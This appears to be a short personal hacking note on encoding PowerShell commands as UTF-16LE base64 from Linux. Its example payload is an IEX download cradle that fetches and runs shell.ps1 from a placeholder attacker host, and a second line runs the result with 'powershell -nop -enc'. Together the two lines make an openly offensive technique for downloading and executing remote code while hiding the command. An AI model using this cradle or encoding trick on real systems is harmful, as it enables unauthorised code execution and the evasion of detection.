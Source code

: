 # powershell encode commands as base64 with windows wide char strings in linux
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# References
- [20221003150730](/zet/20221003150730/README.md) powershell
- ~/kb/hacking/commands/encode-powershell-base64-windows.md

Tags:
    #assorted
